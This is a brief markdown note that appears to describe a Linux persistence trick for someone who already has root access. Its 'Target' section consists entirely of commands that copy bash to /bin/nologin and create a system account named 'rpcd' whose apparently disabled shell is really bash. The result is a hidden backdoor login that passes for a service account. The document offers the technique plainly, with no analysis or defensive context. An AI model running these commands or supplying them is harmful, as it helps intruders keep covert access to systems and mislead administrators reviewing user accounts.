 # Prerequisite

Root user access

# Target

    cp /bin/bash /bin/nologin
    useradd -r -m -d /var/spool/<USERNAME> -s /usr/sbin/nologin <USERNAME>
    useradd -r -m -d /var/spool/rpcd -s /bin/nologin rpcd
